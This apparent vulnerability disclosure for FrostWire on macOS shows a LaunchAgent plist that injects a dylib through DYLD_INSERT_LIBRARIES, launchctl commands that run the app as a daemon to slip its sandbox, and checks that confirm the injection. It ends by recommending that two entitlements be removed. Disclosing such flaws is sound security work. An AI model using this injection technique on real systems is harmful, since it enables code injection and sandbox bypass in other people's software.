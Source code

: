 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.bypass.downloads</string>

    <key>ProgramArguments</key>
    <array>
        <string>/Applications/FrostWire.app/Contents/MacOS/FrostWire</string>
    </array>

    <key>EnvironmentVariables</key>
    <dict>
        <key>DYLD_INSERT_LIBRARIES</key>
        <string>/Users/swayzgl1tzyyy/Desktop/Proof-of-Concepts/frostwire/bypass_downloads.dylib</string>
    </dict>

    <key>RunAtLoad</key>
    <true/>

    <key>KeepAlive</key>
    <false/>
</dict>
</plist>
```

Then, use the launchctl utility to execute `~/Library/LaunchAgents/com.bypass.downloads.plist` which runs FrostWire as a daemon to avoid inheriting the parent process's sandbox profile.

```sh
launchctl unload ~/Library/LaunchAgents/com.bypass.downloads.plist 2>/dev/null
launchctl load ~/Library/LaunchAgents/com.bypass.downloads.plist
```

Check the `/tmp/Downloads.txt` and verify it worked.

```sh
cat /tmp/bypass_downloads.log
cat /tmp/Downloads.txt
```

<img width="2864" height="1854" alt="pocss" src="https://github.com/user-attachments/assets/5bd04389-4b0c-4f3d-98b9-60cd42506c4a" />
Figure 2: dylib injection is succesfull

#### Suggested Fix

Remove or restrict the following entitlements:
- `com.apple.security.cs.allow-dyld-environment-variables`
- `com.apple.security.cs.disable-library-validation`


